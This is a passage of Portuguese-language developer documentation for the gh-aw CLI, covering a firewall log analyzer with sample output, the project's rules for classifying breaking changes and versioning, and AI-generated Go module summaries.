

**Indicadores Permitidos:**
- Códigos de status: 200, 206, 304
- Decisões contendo: TCP_TUNNEL, TCP_HIT, TCP_MISS

**Indicadores Negados:**
- Códigos de status: 403, 407
- Decisões contendo: NONE_NONE, TCP_DENIED

**Padrão:** Negado (por segurança quando a classificação é ambígua)

### Exemplos de Saída

#### Saída do Console

```
🔥 Análise de Log de Firewall
Total de Solicitações   : 8
Solicitações Permitidas : 5
Solicitações Negadas    : 3

Domínios Permitidos:
  ✓ api.enterprise.githubcopilot.com:443 (1 solicitações)
  ✓ api.github.com:443 (2 solicitações)

Domínios Bloqueados:
  ✗ blocked-domain.example.com:443 (2 solicitações)
```

#### Saída JSON

```json
{
  "firewall_log": {
    "total_requests": 8,
    "allowed_requests": 5,
    "blocked_requests": 3,
    "allowed_domains": [
      "api.enterprise.githubcopilot.com:443",
      "api.github.com:443"
    ],
    "blocked_domains": [
      "blocked-domain.example.com:443"
    ],
    "requests_by_domain": {
      "api.github.com:443": {
        "allowed": 2,
        "blocked": 0
      }
    }
  }
}
```

### Pontos de Integração

Os comandos `logs` e `audit` automaticamente:
1. Pesquisam logs de firewall em diretórios de execução
2. Analisam todos os arquivos `.log` em diretórios `firewall-logs/` ou `squid-logs/`
3. Agregam estatísticas em todos os arquivos de log
4. Incluem análise de firewall na saída do console e JSON
5. Fazem cache dos resultados em `run_summary.json`

### Implementação

**Arquivos:**
- `pkg/cli/firewall_log.go` (396 linhas) - Implementação principal do analisador
- `pkg/cli/firewall_log_test.go` (437 linhas) - Testes unitários
- `pkg/cli/firewall_log_integration_test.go` (238 linhas) - Testes de integração

**Testes:**
```bash
# Testes unitários
make test-unit

# Testes de integração
go test ./pkg/cli -run TestFirewallLogIntegration
```


## Regras de Quebra da CLI

Esta seção define o que constitui uma mudança de quebra (breaking change) para a CLI gh-aw. Estas regras ajudam mantenedores e colaboradores a avaliar mudanças durante a revisão de código e garantir estabilidade para os usuários.

### Visão Geral

Mudanças de quebra exigem atenção especial durante o desenvolvimento e revisão porque podem interromper fluxos de trabalho existentes dos usuários. Esta seção fornece critérios claros para identificar mudanças de quebra e orientação sobre como lidar com elas.

### Categorias de Mudanças

#### Mudanças de Quebra (Incremento de Versão Principal)

As mudanças a seguir são **sempre de quebra** e exigem:
- Um tipo de changeset `major`
- Documentação em CHANGELOG.md com orientação de migração
- Revisão por mantenedores

**1. Remoção ou Renomeação de Comando**

Quebra:
- Remover um comando completamente (por exemplo, remover `gh aw logs`)
- Renomear um comando sem alias (por exemplo, `gh aw compile` → `gh aw build`)
- Remover um subcomando (por exemplo, remover `gh aw mcp inspect`)

Exemplos de releases anteriores:
- Remover flag `--no-instructions` do comando compile (v0.17.0)

**2. Remoção ou Renomeação de Flag**

Quebra:
- Remover uma flag (por exemplo, remover flag `--strict`)
- Alterar um nome de flag sem compatibilidade retroativa (por exemplo, `--output` → `--out`)
- Alterar a forma curta de uma flag (por exemplo, `-o` → `-f`)
- Alterar uma flag obrigatória para não ter padrão quando anteriormente tinha

Exemplos de releases anteriores:
- Remover fallback GITHUB_TOKEN para operações Copilot (v0.24.0)

**3. Mudanças de Formato de Saída**

Quebra:
- Alterar a estrutura da saída JSON (remover campos, renomear campos)
- Alterar a ordem das colunas na saída da tabela que os usuários podem analisar posicionalmente
- Alterar códigos de saída para cenários específicos
- Remover campos de saída dos quais os scripts podem depender

Exemplos de releases anteriores:
- Atualizar estrutura de saída JSON do comando status (v0.21.0): substituído `agent` por `engine_id`, removidos campos `frontmatter` e `prompt`

**4. Mudanças de Comportamento**

Quebra:
- Alterar valores padrão para flags (por exemplo, `strict: false` → `strict: true`)
- Alterar requisitos de autenticação
- Alterar requisitos de permissão
- Alterar a semântica de opções existentes

Exemplos de releases anteriores:
- Alterar padrão do modo estrito de false para true (v0.31.0)
- Remover proxy Squid por ferramenta - unificar filtragem de rede (v0.25.0)

**5. Mudanças de Esquema**

Quebra:
- Remover campos do esquema de frontmatter do fluxo de trabalho
- Tornar campos opcionais obrigatórios
- Alterar o tipo de um campo (por exemplo, string → objeto)
- Remover valores permitidos de enums

Exemplos de releases anteriores:
- Remover seção "defaults" do esquema JSON principal (v0.24.0)
- Remover campo de nível superior "claude" obsoleto (v0.24.0)

#### Mudanças Sem Quebra (Incremento de Versão Menor ou de Correção)

As mudanças a seguir **não são de quebra** e normalmente exigem:
- Um changeset `minor` para novas funcionalidades
- Um changeset `patch` para correções de bugs

**1. Adições**

Não Quebra:
- Adicionar novos comandos
- Adicionar novas flags com padrões razoáveis
- Adicionar novos campos à saída JSON
- Adicionar novos campos opcionais ao esquema
- Adicionar novos valores permitidos a enums
- Adicionar novos códigos de saída para novos cenários

Exemplos:
- Adicionar flag `--json` ao comando status (v0.20.0)
- Adicionar comando mcp-server (v0.17.0)

**2. Depreciações**

Não Quebra (quando tratadas corretamente):
- Depreciar comandos (com aviso, mantendo funcionalidade)
- Depreciar flags (com aviso, mantendo funcionalidade)
- Depreciar campos de esquema (com aviso, mantendo funcionalidade)

Requisitos para depreciação:
- Imprimir aviso de depreciação para stderr
- Documentar a depreciação e o caminho de migração
- Manter a funcionalidade depreciada funcionando por pelo menos um release menor
- Agendar remoção em uma versão principal futura

**3. Correções de Bug**

Não Quebra (ao corrigir comportamento não intencional):
- Corrigir saída incorreta
- Corrigir códigos de saída incorretos
- Corrigir validação de esquema que era permissiva demais

Nota: Corrigir um bug do qual os usuários dependem pode exigir um aviso de mudança de quebra.

**4. Melhorias de Desempenho**

Não Quebra:
- Execução mais rápida
- Redução do uso de memória
- Otimizações de processamento paralelo

**5. Mudanças de Documentação**

Não Quebra:
- Melhorar texto de ajuda
- Adicionar exemplos
- Clarificar mensagens de erro

### Árvore de Decisão: Isso é Quebra?



### Diretrizes para Contribuidores

**Ao Fazer Mudanças na CLI:**

1. Verifique a árvore de decisão antes de implementar mudanças
2. Documente mudanças de quebra claramente no changeset
3. Forneça orientação de migração para usuários afetados por mudanças de quebra
4. Considere compatibilidade retroativa - você pode adicionar um alias em vez de renomear?
5. Use avisos de depreciação por pelo menos um release menor antes da remoção

**Formato de Changeset para Mudanças de Quebra:**

```markdown
"gh-aw": major

Remover opção obsoleta `--old-flag`

**⚠️ Mudança de Quebra**: A opção `--old-flag` foi removida.

**Guia de migração:**
- Se você usava `--old-flag value`, use `--new-flag value` agora
- Scripts que usam esta flag precisarão ser atualizados

**Motivo**: A opção foi depreciada na v0.X.0 e removida para simplificar a CLI.
```

**Formato de Changeset para Mudanças Sem Quebra:**

Para novas funcionalidades:
```markdown
"gh-aw": minor

Adicionar flag --json ao comando logs para saída estruturada
```

Para correções de bugs:
```markdown
"gh-aw": patch

Corrigir código de saída incorreto quando arquivo de fluxo de trabalho não encontrado
```

### Lista de Verificação de Revisão para Mudanças de CLI

Revisores devem verificar:

- [ ] Mudança de quebra identificada corretamente - Esta mudança corresponde a algum critério de mudança de quebra?
- [ ] Tipo de changeset apropriado - Está marcado como major/minor/patch corretamente?
- [ ] Orientação de migração fornecida - Para mudanças de quebra, há documentação de migração clara?
- [ ] Aviso de depreciação adicionado - Se depreciando, avisa os usuários?
- [ ] Compatibilidade retroativa considerada - Isso poderia ser feito sem quebrar a compatibilidade?
- [ ] Testes atualizados - Os testes cobrem o comportamento alterado?
- [ ] Texto de ajuda atualizado - A ajuda da CLI está precisa?

### Padrões de Código de Saída

A CLI usa códigos de saída padrão:

| Código de Saída | Significado | Quebra Alterar |
|-----------|---------|-------------------|
| 0 | Sucesso | Não (adicionar é aceitável) |
| 1 | Erro geral | Não (para novos erros) |
| 2 | Uso inválido | Não (para novas verificações) |

Quebra: Alterar o código de saída para um cenário existente (por exemplo, alterar de 1 para 2 para um tipo de erro específico).

### Padrões de Saída JSON

Ao adicionar ou modificar a saída JSON:

1. Nunca remova campos sem um incremento de versão principal
2. Nunca renomeie campos sem um incremento de versão principal
3. Nunca altere tipos de campo sem um incremento de versão principal
4. Adicionar novos campos é seguro - parsers devem ignorar campos desconhecidos
5. Adicionar novos valores enum é seguro - parsers devem lidar com valores desconhecidos graciosamente

### Modo Estrito e Mudanças de Segurança

Consideração especial para mudanças no modo estrito:

- Fazer com que a validação do modo estrito recuse em vez de avisar é uma quebra (por exemplo, v0.30.0)
- Alterar os padrões do modo estrito é uma quebra (por exemplo, v0.31.0)
- Adicionar novas validações de modo estrito não é uma quebra (o modo estrito é opt-in inicialmente)

### Referências

- **Sistema de Changeset**: Veja a seção Gerenciamento de Release para detalhes de gerenciamento de versão
- **CHANGELOG**: Veja `CHANGELOG.md` para exemplos de mudanças de quebra
- **Versionamento Semântico**: https://semver.org/


## Resumos de Módulos Go

O diretório `scratchpad/mods/` contém resumos gerados por IA de padrões de uso de módulos Go no repositório gh-aw, criados pelo fluxo de trabalho Go Fan.

### Propósito

Os resumos de módulos Go fornecem:
- **Visão geral do módulo** e informações de versão
- **Arquivos e APIs** que usam o módulo
- **Descobertas de pesquisa** do repositório GitHub do módulo
- **Oportunidades de melhoria** (vitórias rápidas, oportunidades de funcionalidade, melhores práticas)
- **Referências** para documentação e changelog

### Convenção de Nomenclatura de Arquivo

Arquivos de resumo de módulo seguem um padrão de nomenclatura consistente onde o caminho do módulo Go tem barras substituídas por hifens:

| Caminho do Módulo | Nome do Arquivo |
|-------------|-----------|
| `github.com/goccy/go-yaml` | `goccy-go-yaml.md` |
| `github.com/spf13/cobra` | `spf13-cobra.md` |
| `github.com/stretchr/testify` | `stretchr-testify.md` |

### Processo de Geração

Os resumos são gerados pelo [fluxo de trabalho Go Fan](/.github/workflows/go-fan.md):

```mermaid
graph LR
    A[Gatilho Agendado<br/>Dias úteis 7 AM UTC] --> B[Carregar Memória de Cache]
    B --> C[Selecionar Próximo Módulo<br/>Round-Robin]
    C --> D[Analisar Uso do Módulo]
    D --> E[Pesquisar Repositório GitHub]
    E --> F[Gerar Resumo]
    F --> G[Gravar em scratchpad/mods/]
    G --> H[Atualizar Memória de Cache]
    H --> I[Commitar & Enviar (Push)]
```

**Frequência de Atualização**: Diariamente em dias úteis (segunda a sexta) às 7 AM UTC

**Seleção Round-Robin**: O fluxo de trabalho usa memória de cache para rastrear qual módulo foi analisado por último, garantindo que cada módulo seja atualizado em rotação.

### Diretrizes de Uso

Ao trabalhar com módulos Go na base de código:

1. **Verifique os resumos existentes** em `scratchpad/mods/` para padrões específicos de módulo e melhores práticas
2. **Referencie oportunidades de melhoria** ao atualizar ou refatorar o uso de módulos
3. **Consulte links de documentação de API** fornecidos nos resumos para referência autorizada
4. **Atualize os resumos manualmente** se mudanças significativas forem feitas nos padrões de uso de módulos (o fluxo de trabalho irá atualizar na próxima execução)

### Conteúdo do Resumo

Cada resumo de módulo inclui as seguintes seções:

- **Visão Geral do Módulo**: Versão usada e propósito geral
- **Análise de Uso**: Arquivos e locais de código usando o módulo
- **Superfície da API**: Funções, tipos e métodos utilizados
- **Descobertas de Pesquisa**: Informações do repositório do módulo (releases recentes, documentação, melhores práticas)
- **Oportunidades de Melhoria**: Sugestões para melhor uso de módulos
- **Referências**: Links para documentação, changelog e repositório GitHub


**Última Atualização**: 2025-12-01
**Mantenedores**: Equipe GitHub Next
